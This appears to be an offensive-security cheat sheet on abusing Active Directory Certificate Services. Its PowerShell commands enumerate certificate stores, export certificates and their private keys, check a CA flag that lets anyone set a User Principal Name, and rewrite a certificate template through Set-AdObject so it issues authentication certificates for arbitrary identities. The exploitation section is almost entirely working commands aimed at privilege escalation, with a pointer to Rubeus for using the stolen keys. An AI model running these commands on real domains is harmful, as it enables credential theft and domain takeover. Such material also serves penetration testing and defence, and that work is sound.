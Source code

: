 ### Enumerating existing certificates

#### Listing

```text
get-childitem cert:\ # list storages
get-childitem cert:\localmachine\my
get-childitem cert:\currentuser\my
```

#### Extracting a certificate

```text
$cert = Get-ChildItem -Path cert:\CurrentUser\My\<Thumbprint>
Export-Certificate -Cert $cert -FilePath c:\test.cer
```

#### Extracting the private key from a certificate

```text
$pw = ConvertTo-SecureString "password1!" -AsPlainText -Force 
$certificate = Get-ChildItem -Path Cert:\CurrentUser\My\<Thumbprint>
Export-PfxCertificate -Cert $certificate -FilePath key.pfx -Password $pw
```

The extracted private key also can be used with Rubeus \(see [here](https://github.com/GhostPack/Rubeus)\)

### Enumerating the CA servers local policy

```text
certutil -getreg policy\editflags
```

If you find that `EDITF_ATTRIBUTESUBJECTALTNAME2` is set as a flag, you can skip the exploitation step and go right into privilege escalation, since this allows anyone to set a User Principal Name \(UPN\) for any certificate template in the active directory.

## Exploitation / Modification

### Abusing write access on a certificate template

#### Modifying the certificate template and setting the necessary properties

```text
$Properties = @{}
$Properties.Add('mspki-certificate-name-flag',1)
$Properties.Add('pkiextendedkeyusage',@('1.3.6.1.4.1.311.20.2.2','1.3.6.1.5.5.7.3.2'))
$Properties.Add('msPKI-Certificate-Application-Policy',@('1.3.6.1.4.1.311.20.2.2','1.3.6.1.5.5.7.3.2'))
$Properties.Add('flags',0)
$Properties.Add('mspki-enrollment-flag',0)
$Properties.Add('mspki-private-key-flag',256) # 0x100
$Properties.'mspki-private-key-flag' += 16 # 0x10
$Properties.Add('pkidefaultkeyspec',1)
$Properties.Add('pKIDefaultCSPs','1,Microsoft RSA SChannel Cryptographic Provider')

Import-Module ActiveDirectory
Set-AdObject "CN=TemplateName,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=domain,DC=local" -Replace $Properties
```
